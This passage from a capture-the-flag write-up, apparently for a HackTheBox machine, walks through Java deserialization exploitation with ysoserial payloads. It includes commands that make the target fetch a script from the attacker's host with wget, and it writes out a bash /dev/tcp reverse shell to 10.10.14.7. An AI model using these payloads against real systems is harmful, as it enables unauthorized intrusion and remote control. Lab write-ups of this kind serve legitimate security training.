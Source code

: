 Then, for each Payload to try, I can run `ysoserial CommonsCollections5 'ping -c 1 10.10.14.7' | base64 -w 0` and paste that into the `<serializable>` tag and submit, and watch `tcpdump` for a ping.

None of the `CommonsCollections` worked, but `CommonsBeanutils1` did!

#### Check for wget/curl

I’ve had really bad luck with complicated commands like reverse shells via Java deserialization. I’d much rather upload a Bash script and then run it. For that, I’ll want to see if `wget` or `curl` can contact my host.

Start with a payload:

```

oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7' | base64 -w 0
...[snip]...

```

Start Python webserver, and send the payload from Burp. The webserver gets a hit:

```

oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - [23/Apr/2021 08:42:30] "GET / HTTP/1.1" 200 -

```

#### Reverse Shell

I’ll use two payloads to get a shell. I’ll write `rev.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.7/443 0>&1

```

First, I’ll upload it to the container with `wget`:

```

oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7/rev.sh' | base64 -w 0

```

Once that succeeds (I’ll see the 200 at the Python webserver), then I’ll execute it:

```

oxdf@parrot$ ysoserial CommonsBeanutils1 'bash rev.sh' | base64 -w 0

```

On sending that through Burp, a shell comes back:
